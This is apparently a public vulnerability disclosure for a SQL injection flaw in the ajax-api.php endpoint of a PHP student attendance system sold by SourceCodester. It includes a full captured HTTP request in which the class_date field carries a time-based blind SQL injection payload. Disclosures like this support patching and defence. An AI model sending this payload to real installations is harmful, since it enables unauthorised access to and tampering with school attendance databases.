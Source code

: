 **BUG_Author:**

Daydust

**Vendor:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Software:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Vulnerability File:**

/php-attendance/ajax-api.php

**Description:**
Simple_Student_Attendance_Syste Exists SQL Injection Vulnerability on ajax-api.php Page

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

access http://172.21.48.180/php-attendance/?page=attendance Go to the attendance management page, enable packet capture, and click the edit button of any course to obtain the following data packets

```http
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 172.21.48.180
Content-Length: 93
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.48.180
Referer: http://172.21.48.180/php-attendance/?page=attendance&class_id=2&class_date=2023-11-30
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=tpml2ej1cjqohlua4pf82lbn2l
Connection: close

class_id=4&class_date=2023-12-09' AND  if(1=1,sleep(5),2) and'1'='1&student_id[]=7&status[]=1
